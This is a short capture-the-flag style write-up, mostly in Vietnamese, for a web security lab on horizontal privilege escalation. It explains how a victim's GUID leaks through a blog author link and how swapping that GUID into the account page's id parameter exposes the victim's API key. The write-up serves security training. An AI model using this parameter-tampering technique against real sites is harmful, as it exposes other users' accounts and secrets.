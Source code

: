 # Lab: User ID controlled by request parameter, with unpredictable user IDs

## Question

This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

To solve the lab, find the GUID for `carlos`, then submit his API key as the solution.

You can log in to your own account using the following credentials: `wiener:peter`

## Answer

Truy cập trang mục tiêu, có chứa các bài đăng với bình luận từ user khác.

Thực hiện đăng nhập bằng tài khoản `wiener:peter`

Sau khi đăng nhập, nhận được API key của tài khoản:

![](images/1731159489191.png)

Và cũng nhận thấy URL của trang user là api key của mình:

```text
https://0ae600db03f1bcad800326c5005700e4.web-security-academy.net/my-account?id=54814f91-6513-4a43-ad30-93e8fdb9dfad
```

Trong mỗi blog bài viết sẽ có thông tin username của tác giả và đường link tới trang cá nhân của họ:

![](images/1731159883933.png)

```html
<p>
    <span id=blog-author>
        <a href='/blogs?userId=fe02af42-cc9c-4aa2-9aed-8be9eb55095f'>
            carlos
        </a>
    </span> | 15 October 2024
</p>
```

Sử dụng api trên để truy cập trang cá nhân của carlos:

```text
https://0ae600db03f1bcad800326c5005700e4.web-security-academy.net/my-account?id=fe02af42-cc9c-4aa2-9aed-8be9eb55095f
```

Success~~

Nhập API key và done~~
